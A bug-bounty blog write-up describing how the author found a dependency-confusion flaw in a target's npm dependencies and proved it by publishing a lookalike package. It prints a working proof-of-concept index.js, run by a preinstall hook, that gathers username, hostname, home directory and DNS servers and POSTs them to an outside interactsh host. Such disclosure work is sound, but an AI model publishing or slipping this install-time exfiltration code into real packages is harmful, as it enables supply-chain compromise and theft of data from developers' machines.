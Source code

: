 ```yaml
---
layout: post
title: Remote Code Execution through Dependency injection using Burpsuite Extension
date: 2023-08-19 15:08 +0530
categories: [bugbounty, writeup]
tags: [bugbounty,rce] 
---
```



## Introduction

Dependency Confusion is a security vulnerability that affects software dependencies in the software development process. It occurs when a public package manager installs an internal or private package with the same name as an external public package. An attacker can exploit this vulnerability by uploading a malicious package to the public package repository.

## Discovery

I was testing a bug bounty target when I noticed that the extension [JS-Miner](https://portswigger.net/bappstore/0ab7a94d8e11449daaf0fb387431225b) flagged a dependency issue in the target application. The issue involved a JavaScript file that referenced an organization called **private-progrm-widget/widget1**. However, this organization was not found in the NPM registry. An attacker can create a fake package that is named `private-progrm-widget` and then create a module name `widget1` and upload that to the NPM registry. When the target application tries to install this package, it will actually install the attacker's malicious code.

![JS-miner](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/JS4.png?raw=true)

For the proof of concept, I created the following `index.js` and `package.json` files and published them to [npmjs.com](http://npmjs.com/) under the name **private-progrm-widget/widget module** :


#### index.js

```jsx
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "chehzb52vtc0000bsfaggeze9iwyyyyyb.oast.fun",
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();

```

#### package.json

```json
{
  "name": "@private-progrm-widget/widget",
  "version": "5.0.4",
  "description": "null",
  "main": "index.js",
  "scripts": {
    "test": "echo \\"Error: no test specified\\" && exit 1",
    "preinstall": "node index.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "@private-progrm-widget/widget": "^5.0.4"
  }
}

```

When a user installs this module, it retrieves their username and current working directory. After waiting for a while, the following HTTP calls were logged to my [interact.sh](http://interact.sh/) server, confirming the execution of the `index.js` file.

![Remote%20Code%20Execution%20using%20Dependency%20Confusion%20bbc9d0cfc912465883f0d0f3d55ffa68/Screenshot_2023-05-23_at_5.20.20_PM.png](https://github.com/Jineeshak/jineeshak.github.io/blob/main/assets/img/JS2.png?raw=true)

Reference: [https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)